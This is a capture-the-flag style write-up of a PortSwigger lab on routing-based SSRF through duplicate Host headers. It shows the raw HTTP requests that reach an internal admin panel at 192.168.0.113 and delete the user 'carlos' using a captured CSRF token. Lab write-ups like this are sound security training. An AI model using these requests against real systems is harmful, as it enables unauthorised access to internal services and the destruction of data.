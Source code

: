
# 3 - SSRF via flawed request parsing

This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.



![img](images/SSRF%20via%20flawed%20request%20parsing/1.png)

Link: https://portswigger.net/web-security/host-header/exploiting#routing-based-ssrf


![img](images/SSRF%20via%20flawed%20request%20parsing/2.png)

-------------

https://0a5100f104ffdc65c3832510004000cf.web-security-academy.net/

If you supply the domain of your Collaborator server in the Host header, and subsequently receive a DNS lookup from the target server or another in-path system, this indicates that you may be able to route requests to arbitrary domains.

Error in Host header for "/product?productId=1":

![img](images/SSRF%20via%20flawed%20request%20parsing/3.png)

Gateway error when adding a second Host header:

![img](images/SSRF%20via%20flawed%20request%20parsing/4.png)

Send to Intruder:

![img](images/SSRF%20via%20flawed%20request%20parsing/5.png)

Using 192.168.0.113 we get a 404 error:

![img](images/SSRF%20via%20flawed%20request%20parsing/6.png)

![img](images/SSRF%20via%20flawed%20request%20parsing/7.png)

Repeat the request with the product ID, add the second Host header with that IP address and change path to "/update":

![img](images/SSRF%20via%20flawed%20request%20parsing/8.png)

```
GET /admin/ HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...
```

We get this page:

![img](images/SSRF%20via%20flawed%20request%20parsing/9.png)

Deleting the user is not possible, so I repeated the process and captured the response:

![img](images/SSRF%20via%20flawed%20request%20parsing/10.png)

We will send a new request to delete the user knowing the endpoint is /admin/delete and the parameter is probably username:

![img](images/SSRF%20via%20flawed%20request%20parsing/11.png)

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
```

We get the error:

![img](images/SSRF%20via%20flawed%20request%20parsing/12.png)

Let's repeat the process and add the csrf value in the response to the previous GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv"):

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
```

![img](images/SSRF%20via%20flawed%20request%20parsing/13.png)

We get a 302 redirection:

![img](images/SSRF%20via%20flawed%20request%20parsing/14.png)

Lab is solved:

![img](images/SSRF%20via%20flawed%20request%20parsing/15.png)